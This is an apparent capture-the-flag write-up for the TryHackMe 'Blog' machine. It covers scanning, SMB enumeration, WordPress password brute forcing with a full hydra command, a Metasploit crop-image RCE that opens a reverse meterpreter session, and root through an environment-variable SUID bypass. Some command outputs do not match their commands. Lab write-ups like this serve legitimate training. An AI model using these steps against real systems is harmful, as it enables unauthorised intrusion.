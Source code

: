 ```yaml
---
title: Blog - Medium THM # name your WU = Name - [Level] [Platform]
date: 2023-12-05 11:20:23 +/-0800 # configure the date same as the name of your file
categories: [writeup, tryhackme] # categories, First the parents than the child-category, 2 or 3 MAX !
writeup: :title # don't touch me!
permalink: /blog # / and the name
tags: [thm, medium, writeup, linux, wordpress, talace] #TAG names always lowercase (a,b,c,d,e,f...)
---
```


- OS: Linux
- Difficulty: Medium
- Author: Talace

## **Scanning**
### Threader3000.py
```
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
```

### Nmap scan
```
nmap -p21,80 -sV -sC -T4 -Pn -oA 10.10.10.5 10.10.10.5

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open              Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## **Enumeration**
### SMB Enumeration with enum4linux & smbclient
```
enum4linux 10.10.15.175 -A

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
BillySMB        Disk      Billy's local SMB Share
IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
```

Now that we've found some shared folder, let's dig in it.
```
smbclient --no-pass //10.10.15.175/BillySMB

  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020
```

Found nothing interesting, let's go on the wordpress
## Exploit
### Brute force login page w/ hydra & wpscan
#### wpscan brute force attack login
```
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt
```
#### (another way with hydra) Hydra brute force attack login
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
```

now let's search for an exploit in metasploit
```
search WordPress 5.0.0

#  Name                            Disclosure Date  Rank       Check  Description
-  ----                            ---------------  ----       -----  -----------
0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```

Perfect! Let's try it!
```
set LHOST 10.8.138.226
set RHOSTS 10.10.15.175
set USERNAME kwheel
set PASSWORD *********

run
```

Nice we get our meterpreter session!

## **Privilege escalation**
### Suid file

Found the file
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null\

-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

Ltrace it to see what's done in there
```
ltrace /usr/sbin/checker

getenv("admin")                                  = "1"
setuid(0)                                        = 0
system("/bin/bash")
```

Since we only need admin to be true and present in the env, let's export the value
```
export admin=1
```

And run it again!
```
/usr/sbin/checker
```

Got root!
Now let's find user.txt and root.txt, since we now the creator of this box is a player
```
find / -type f -name "user.txt"

/home/bjoel/user.txt
/media/usb/user.txt
```

And root.txt!
```
find / -type f -name "user.txt"


/root/root.txt
```
